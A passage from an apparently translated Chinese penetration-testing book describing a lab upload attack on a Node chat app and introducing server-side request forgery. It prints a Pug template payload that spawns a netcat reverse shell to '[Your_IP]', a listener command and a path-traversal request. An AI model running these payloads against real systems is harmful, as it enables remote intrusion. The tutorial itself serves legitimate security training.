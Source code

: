 传统来说，我们可能会尝试找到我们可以使用的上传区域和 shell。可以在此处找到不同类型的 webshell payload 的绝佳列表：https://github.com/tennc/webshell 。请注意，我绝不会审查任何这些 shell 是否存在后门，所以使用它们需要你自担风险。我遇到过很多有后门的 shell。

**使用上传攻击对聊天应用程序进行攻击**

在我们的实验室中，我们将在 Node 应用程序上执行上传 RCE。在我们的示例中，有一个文件上传功能，允许任何文件上传。不幸的是，使用 Node，我们不能只通过 Web 浏览器调用文件来执行文件，就像在 PHP 中一样。因此，在这种情况下，我们将使用动态路由端点尝试呈现 Pug 文件的内容。错误在于端点将读取文件的内容，假设它是 Pug 文件，因为默认目录存在于 Views 目录中。此端点上还存在路径遍历和本地文件读取漏洞。
 
 ![](img/chapter_3/3-34.png)

在上传过程中，文件处理程序模块会将文件重命名为随机字符串，没有扩展名。在页面的上传响应内容中，存在上载文件的服务器路径位置。使用这些信息，我们可以使用/drouting 执行模板注入以实现远程代码执行。

既然我们知道底层应用程序是 Node(JavaScript)，我们可以上传什么样的 payload 来才能被 Pug 执行？回到我们之前使用的简单示例：
* 首先，为 require 模块分配一个变量
    * `-var x = global.process.mainModule.require`
* 使用子进程模块使我们能够通过运行任何系统命令来访问操作系统功能：
    * `-x('child_process').exec('nc [Your_IP] 8888 -e /bin/bash')`

RCE 上传攻击：

* 转到 http://chat:3000 并使用任何有效帐户登录
* 使用以下信息上传文本文件。在 Pug 中，“-”字符表示执行 JavaScript。
    * `-var x = global.process.mainModule.require`
    * `-x('child_process')。exec('nc [Your_IP] 8888 -e / bin / bash')`
* 通过上传文件查看 Burp 中的请求和响应。你将注意到在响应 POST 请求中上传的文件的哈希值以及引用的 drouting。

 ![](img/chapter_3/3-35.png)

 ![](img/chapter_3/3-36.png)

* 在这个模板代码中，我们将 require 函数分配给 child_process.exec，它允许我们在操作系统级别上运行命令。此代码将使 Web 服务器连接到在端口8888上 `[Your_IP]` 上运行的监听器，并允许我们在 Web 服务器上运行 shell。
* 在攻击者计算机上，启动 shell 的 netcat 侦听器以连接回
    * nc -l -p 8888
* 我们通过在 /drouting 上运行端点来激活代码。在浏览器中，转到上传的哈希文件。 drouting 端点采用指定的 Pug 模板并呈现它。对我们来说幸运的是，我们上传的 Pug 模板包含我们的反向 Shell 。
    * 在浏览器中，使用你从文件上载响应中恢复的文件访问 drouting 端点。我们使用目录遍历“../”来返回上一个目录，以便能够进入包含我们的恶意文件的 uploads 文件夹：
    * `/drouting?filename=../uploads/[你的文件哈希]`
* 回到你的终端监听 8888 端口并在你的 shell 里操作吧！
 
 ![](img/chapter_3/3-37.png)

### 服务器端请求伪造（SSRF）
服务器端请求伪造（SSRF）是我认为通常被误解的漏洞之一，并且在术语方面，经常与跨站点请求伪造（CSRF）混淆。虽然这个漏洞已经存在了一段时间，但实际上还没有得到足够的讨论和重视，尤其它可以造成的相当严重的后果。让我们来看看它是什么以及为什么会造成严重的后果。

服务器端请求伪造通常被利用以访问本地系统，进入内部网络或允许某种移动。理解 SSRF 的最简单方法是通过一个例子讲述。假设你有一个公共 Web 应用程序，允许用户通过 URL 从 Internet 上下载配置文件图像。你登录该站点，转到你的个人资料，然后单击 Imgur（公共图像托管服务）的更新个人资料按钮。你提供图像的 URL（ 例如：https://i.imgur.com/FdtLoFI.jpg ）并点击提交。接下来发生的事情是服务器会创建一个全新的请求，转到 Imgur 站点，抓取图像（它可能会执行一些图像操作来调整图像-图像跟踪任何人的大小？），将其保存到服务器，并发送成功消息回到用户。如你所见，我们提供了一个 URL，服务器获取该 URL 并抓取图像，并将其上传到其数据库。

我们提供了最初的 Web 应用程序的 URL，以从外部资源中获取我们的个人资料图片。但是，如果我们将图像 URL 指向 http://127.0.0.1:80/favicon.ico 会发生什么？这将告诉服务器不是请求像 Imgur 这样的东西，而且从本地主机服务器（它本身）获取 favicon.ico 图片文件。如果我们能够获得返回包的值是 200 或使我们的个人资料图片成为本地的 favicon 图片，我们就知道我们可能发现了 SSRF。
  